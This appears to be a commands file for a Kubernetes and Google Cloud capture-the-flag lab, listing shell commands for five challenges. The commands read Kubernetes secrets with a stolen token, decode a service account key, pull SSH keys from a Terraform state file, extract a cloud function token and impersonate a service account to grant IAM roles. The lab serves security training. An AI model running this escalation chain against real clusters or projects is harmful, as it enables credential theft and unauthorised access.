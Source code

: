 # Commands

<details>
  <summary>**Challenge 1**</summary>

## Challenge 1

set cluster IP
#####
    export IP=<IP>

Access API
#####
    curl -k https://$IP/api

Set your token as environment variable.  
#####
    export TOKEN=<token>

Send a request with your token to the Kubernetes API:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/

You can find out which permissions 'system:authenticated' has on this cluster with a request to this endpoint:  
#####
    curl -k -X POST -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1", "kind":"SelfSubjectRulesReview", "spec":{"namespace":"default"}}' -H "Authorization:Bearer $TOKEN" https://$IP/apis/authorization.k8s.io/v1/selfsubjectrulesreviews

You can also query them by using the Kubernetes API:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/pods

  <details>
    <summary>Walkthrough Challenge 1</summary>
  
  You can read Kubernetes secrets in the default namespace on the cluster. Which secrets might it hold?  
  #####
      curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/secrets
  
  The secret values are base64 encoded. Decode them to read the value:  
  #####
      echo -n <secret-value> | base64 -d  

  Safe blob to file
  #####
      echo -n <secret-value> | base64 -d  > /tmp/sa_key.json
  
  </details>

</details>

#

<details>
  <summary>**Challenge 2**</summary>

## Challenge 2

set project id
#####
    export PROJECT_ID=nodal-seer-306517

activate service account
#####
    gcloud auth activate-service-account --key-file /tmp/sa_key.json

check service account
#####
    gcloud auth list

  <details>
    <summary>Walkthrough Challenge 2</summary>

  List files on bucket
  #####
    gsutil ls gs://file-uploads-$PROJECT_ID

  Read state file on bucket
  #####
    gsutil cat gs://file-uploads-$PROJECT_ID/default.tfstate

  
  </details>

</details>

#

<details>
  <summary>**Challenge 3**</summary>

## Challenge 3

read state file
#####
    gsutil cat gs://file-uploads-$PROJECT_ID/default.tfstate

  <details>
    <summary>Walkthrough Challenge 3</summary>
    
  ssh into vm
  #####
    ssh -i <private key file> alice@<compute instance IP> 

  </details>

</details>

#

<details>
  <summary>**Challenge 4**</summary>

## Challenge 4

show VM service account
#####
    gcloud auth list

background: metadata server
#####
    curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/" -H "Metadata-Flavor: Google"

demonstrate limited access scopes
#####
    gcloud compute instances list

show access scopes from tokeninfo endpoint
#####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$(gcloud auth print-access-token)

list storage buckets from VM
#####
    gsutil ls

  <details>
    <summary>Walkthrough Challenge 4</summary>

  list function source code bucket
  #####
      gsutil ls gs://cloud-function-bucket-challenge4

  read source code
  #####
      gsutil cat gs://cloud-function-bucket-challenge4/main.py

  execute function invocation script
  #####
      ./invoke_monitoring_function.sh

  extract command to get function token
  #####
    curl -s -X POST https://europe-west1-$PROJECT_ID.cloudfunctions.net/monitoring-function -H "Authorization: bearer $(gcloud auth print-identity-token)" -H "Content-Type: application/json" -d '{"metadata": "token"}'

  </details>

</details>

#

<details>
  <summary>**Challenge 5**</summary>

## Challenge 5

set token as env var
#####
     export CLOUDSDK_AUTH_ACCESS_TOKEN=<function token>

Get project permissions
#####
    gcloud projects get-iam-policy $PROJECT_ID

List the other service accounts on this project:
#####
    gcloud iam service-accounts list

Describe role
#####
    gcloud iam roles describe TerraformPipelineProjectAdmin --project $PROJECT_ID

Describe bindings on SA
#####
    gcloud iam service-accounts get-iam-policy <terraform service account>

  <details>
    <summary>Walkthrough Challenge 5</summary>
  
  impersonate and set binding
  #####
    gcloud projects add-iam-policy-binding $PROJECT_ID --member=user:<your Google account> --role=roles/viewer --impersonate-service-account <terraform pipeline account>
  
  </details>

</details>


